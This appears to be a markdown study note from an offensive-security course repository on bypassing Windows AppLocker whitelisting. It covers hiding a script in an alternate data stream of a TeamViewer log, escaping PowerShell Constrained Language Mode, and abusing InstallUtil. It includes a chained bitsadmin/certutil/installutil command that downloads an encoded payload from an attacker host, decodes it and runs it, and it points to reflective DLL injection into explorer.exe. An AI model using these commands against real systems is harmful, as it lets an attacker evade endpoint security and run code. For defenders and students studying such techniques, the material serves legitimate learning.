 ## Application Whitelisting Theory
 Application whitelisting software uses a custom driver to register a callback function through this PsSetCreateProcessNotifyRoutineEx API. The callback is invoked every time a new process is created and detemine whether or not an application is whitelisted. Microsoft has multiple native application whitelisting soultions.  AppLocker was introduced in Win7 and avaiable in Win10.
 
 AppLocker includes kernel-mode driver APPID.SYS and the APPIDSVC user-mode service. APPIDSVC manages the whitelisting ruleset and identifies applications when they are run based on the callback notifications from APPID.SYS.
 
 AppLocker has 3 rule categories:
 - 1.Based on FilePath
 - 2.Based on file hash(SHA256)
 - 3.Based on digital signature

 You can access AppLocker in command prompt -> gpedit.msc(GPO configuration manager)->Local Computer Policy -> Computer
Configuration -> Windows Settings -> Security Settings -> Application Control Policies->AppLocker. There will be 4 rule propertites for 4 separate file types
- 1 .exe executable files
- 2 .msi Windows Installer files
- 3 .powershell , jscript, VB, .cmd and .bat native script files
- 4 Packaged Apps from Microsoft App Store
 
 Group Policy, AppLocker violation can be review in Windows event log. eventvwr->Applications and Services Logs -> Microsoft -> Windows -> AppLocker
 
 ## Basic Bypasses
- 1.Check permission for default rules for AppLocker whitelist all executables and scripts located in C:\Program Files, C:\Program Files (x86), and C:\Windows
- 2.Identify writable floder by a user using [accesschk.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk). -u supress error, -w writable directories, -s recurese search.
```
C:\users\mst>accesschk.exe "mst" C:\Windows -wus
```
icacls can tell is a folder path is executable 
```
C:\users\mst>icacls.exe C:\Windows\Tasks
C:\Windows\Tasks NT AUTHORITY\Authenticated Users:(RX,WD)
```
- 3.The default ruleset doesn’t protect against loading arbitrary DLLs. If we were to create an unmanaged DLL, we would be able to load it and trigger exported APIs to gain
arbitrary code execution.
- 4.Alternate Date Steams is a binary file attribute that contains metadata. We can append binary data if additional streams to the original file. If we can find a file that a current user can write and execute. The below code append test.js to a log file. And we can execute it.
```
C:\Users\mst>type test.js > "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"

C:\Users\mst>wscript "C:\Program Files(x86)\TeamViewer\TeamViewer12_Logfile.log:test.js"
```
- 5.Third Party Execution. If a third-party scripting engine like Python or Perl is installed, we could use it to very easily bypass application whitelisting.
```
C:\Users\mst>python test.py
```
## Bypass AppLocker with Powershell
Powershell Language Mode: 
- 1.FullLanguage, allows all cmdlets and the entire .NET framework as well as C# code execution.
- 2.RestrictedLanguage, allowing default cmdlets but heavily restricting much else
- 3.NoLanguage disallows all script text

ConstrainedLanguage mode (CLM) with PowerShell version 3.0, allow scripts that are located in whitelisted locations or otherwise comply with a whitelisting rule can execute with full functionality. The most significant limiation excludes calls to the .NET framework, execution of C# code and reflection.

```
PS C:\Users\mst> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
```
#### Bypass Constrained language mode(CLM) with custom runsapces
Powershell call **System.Management.Automation.dll** to create runspace. This measns, we can write c# [powershellrunnerSpace.cs](/06ApplicationWhitelistingBypass/powershellrunnerSpace.cs) to creates a custom PowerShell runsapce and executes our script inside it. 

The above bypass the powershell execution, but if the AppBlocker pervent custom c# execution, our TTPs will not work. We can leverage native Windows application **InstallUtil**.
This command allows us to install and uninstall server resources by executing the installer components in a specified assembly. We are going to user uninstall method because install method reuqired admin privileges.

We can write [installer.cs](/06ApplicationWhitelistingBypass/Installer.cs) script and compile to our bypass.exe. Once compiled, we can use native windows commands to transfer our file from attack machine to target machine and exuecte it with InstallUtil command.

First, we can encode our exe on our attack machine, host the encoded file

```
C:\Users\mst>certutil -encode C:\Users\mst\Bypass.exe file.txt
```

Second trafer the file to target, decode and execute, and remove encoded file
```
C:\Users\target>bitsadmin /Transfer myJob http://yourip/file.txt C:\users\target\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\target\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= LogToConsole=false /U C:\users\target\Bypass.exe
```
Now we have a bypass method, we will update our Installer.cs to [InsallerShell.cs](/06ApplicationWhitelistingBypass/InstallerShell.cs) which use [Invoke-ReflectivePEInjection PowerShell](/03ProcessInjectionMigration/Invoke-ReflectivePEInjection.ps1) to inject a dll into explorer.exe

